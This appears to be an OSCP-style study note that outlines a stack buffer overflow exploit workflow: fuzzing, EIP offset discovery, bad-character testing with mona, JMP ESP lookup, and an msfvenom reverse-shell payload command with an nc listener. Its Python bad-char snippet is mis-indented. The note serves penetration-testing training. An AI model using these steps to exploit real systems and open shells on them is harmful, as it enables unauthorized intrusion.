 # Buffer Oveflow

See [V1n1v131r4-Scripts](/Scripts/4-Buffer-Overflow/V1n1v131r4-Scripts/README.md) for more appropriate example scripts

## Identify Overflow Length

> 1. Attach debugger
> 2. Run fuzzer script
> 3. Run confirm-overflow script

## Control EIP

> 1. Create pattern: `msf-pattern_create -l <length>`
> 2. Run locate-offset script
> 3. Locate offset: `msf-pattern_offset -l <length> <eip-value>`
> 4. Run verify-offset script

## Locate Space for Shellcode

> 1. Run increase-overflow script to attempt increasing overflow size
> 2. If successful, run bad-char script
>
> - On the debug machine, we can generate a file which contains the same list of badchars with the help of python:
>
> ```python
> badchar_test = ""
>   badchars = [0x00, 0x0A, 0xAD]
>   for i in range(0x00, 0xFF+1):
>   	  if i not in badchars:
>        badchar_test += chr(i)
>   with open("badchar_test.bin", "wb") as f:
>      f.write(badchar_test)
> ```
>
> - Now, we can compare the contents of stack pointed by esp and the file using mona module:
>
>   `!mona compare -a esp -f C:\Python27\badchar_test.bin`

## Find Return Address

> 1. Locate module w/ least memory protection: mona.py `!mona modules`
> 2. JMP ESP hex: `msf-nasm_shell > jmp esp` (FFE4)
> 3. Locate JMP ESP w/ no bad chars: mona.py `find -s "\xff\xe4" -m "<dll module>"`
> 4. Run verify-jmp-esp script

## Getting Shell

> 1. Generate payload: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f <format> -e x86/shikata_ga_nai -b "<bad-chars> (e.g. \x00\x0a\x0d\x25\x26\x2b\x3d)"`
> 2. Run listener: `sudo nc -nvlp <port>`
> 3. Run exploit script

## Cheatsheets

> - [V1n1v131r4/OSCP-Buffer-Overflow](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow)
> - [justinsteven/dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)
> - [LegendBegins/Overflow-Helper](https://github.com/LegendBegins/Overflow-Helper)
> - [butter0verflow/bofhelper](https://github.com/butter0verflow/bofhelper)
> - [rdoix/Buffer-Overflow-Cheat-Sheet](https://github.com/rdoix/Buffer-Overflow-Cheat-Sheet)
> - [Tib3rius/Pentest-Cheatsheets](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
> - [Liodeus](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html)

